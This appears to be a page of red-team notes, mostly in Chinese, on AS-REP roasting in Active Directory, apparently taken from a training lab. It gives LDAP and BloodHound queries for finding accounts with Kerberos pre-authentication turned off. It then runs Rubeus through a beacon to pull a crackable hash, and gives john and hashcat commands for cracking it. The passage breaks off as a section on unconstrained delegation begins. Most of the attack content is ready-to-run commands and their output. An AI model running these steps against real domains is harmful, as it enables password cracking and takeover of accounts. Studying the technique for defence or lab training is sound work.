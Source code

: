 ```
# AS-REP Roasting

关闭kerberos预认证的用户

## 查找关闭kerberos预认证的用户

1. ADSearch
```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Debug\ADSearch.exe --search "(&(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname

[*] No domain supplied. This PC's domain will be used instead
[*] LDAP://DC=dev,DC=cyberbotic,DC=io
[*] CUSTOM SEARCH: 
[*] TOTAL NUMBER OF SEARCH RESULTS: 1
    [+] cn                : Oracle Service
    [+] distinguishedname : CN=Oracle Service,CN=Users,DC=dev,DC=cyberbotic,DC=io
    [+] samaccountname    : svc_oracle
```

2. BloodHound
```
MATCH (u:User {dontreqpreauth:true}) RETURN u
```

3. Rubeus
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asreproast /user:svc_oracle /nowrap

[*] Action: AS-REP roasting

[*] Target User            : svc_oracle
[*] Target Domain          : dev.cyberbotic.io

[*] Searching path 'LDAP://dc-2.dev.cyberbotic.io/DC=dev,DC=cyberbotic,DC=io' for AS-REP roastable users
[*] SamAccountName         : svc_oracle
[*] DistinguishedName      : CN=Oracle Service,CN=Users,DC=dev,DC=cyberbotic,DC=io
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Building AS-REQ (w/o preauth) for: 'dev.cyberbotic.io\svc_oracle'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$svc_oracle@dev.cyberbotic.io:F3B1A1 [...snip...] D6D049
```

## 破解

1. john
```
john --format=krb5asrep --wordlist=wordlist svc_oracle
```

2. hashcat
```
hashcat -a 0 -m 18200 svc_oracle wordlist 
```


# 非约束委派


## 搜索非约束委派计算机

1. ADSearch
```